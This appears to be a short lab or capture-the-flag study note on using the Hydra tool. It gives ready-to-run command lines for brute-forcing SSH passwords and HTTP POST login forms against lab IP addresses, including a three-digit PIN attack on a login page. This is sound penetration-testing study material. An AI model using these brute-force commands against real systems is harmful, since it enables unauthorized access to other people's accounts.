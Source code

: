 ### SSH
Brute forcing the ssh with hydra

```
hydra -l <username> -P <full path to pass> 10.10.32.232 -t 4 ssh
```

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

``` 
sudo hydra <username> <wordlist> 10.10.32.232 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
Below is a more concrete example Hydra command to brute force a POST login form:
```bash
hydra -l <username> -P <wordlist> 10.10.32.232 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

```
 hydra -l '' -P 3digits.txt -f -v 10.10.221.183 http-post-form
 "/login.php:pin=^PASS^:Access denied" -s 8000
```